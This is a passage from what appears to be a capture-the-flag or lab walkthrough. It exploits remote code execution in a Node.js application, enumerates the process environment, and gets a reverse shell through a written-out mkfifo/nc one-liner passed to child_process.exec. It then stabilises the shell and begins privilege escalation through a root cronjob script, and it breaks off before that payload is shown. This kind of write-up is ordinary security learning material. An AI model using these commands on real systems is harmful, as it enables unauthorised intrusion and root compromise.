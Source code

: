 As seen, we have RCE, we can use more commands to test:

```
process.cwd()                          // Current working directory
process.version                        // Node.js version
process.versions                       // Node + dependency versions
process.platform                       // OS platform ('linux', 'win32', etc.)
process.arch                           // Architecture ('x64', etc.)
process.env                            // Environment variables object
process.env['PATH']                   // Specific env var (e.g., PATH)
process.argv                           // Script arguments (if any)
process.uptime()                       // Time Node has been running
process.memoryUsage()                 // Memory info
```


Ok, the nice part about this is getting a reverse shell, so let's use:

```node
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f')
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612162333.png)

Got our shell, let's begin privesc.



# PRIVILEGE ESCALATION
---


Ok, first step is to stabilize the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612162428.png)
Now, let's take a look around, we can use linpeas:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612162926.png)

As seen, there's a `cleanupscript.sh` script, since it is a cleanup script, it may be running as a process each couple minutes, let's use `pspy` to check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612163145.png)

As expected, there's a cronjob which runs the `cleanupscript.sh` as root, we can make a backup of the real script and modify it to send ourselves a reverse shell:
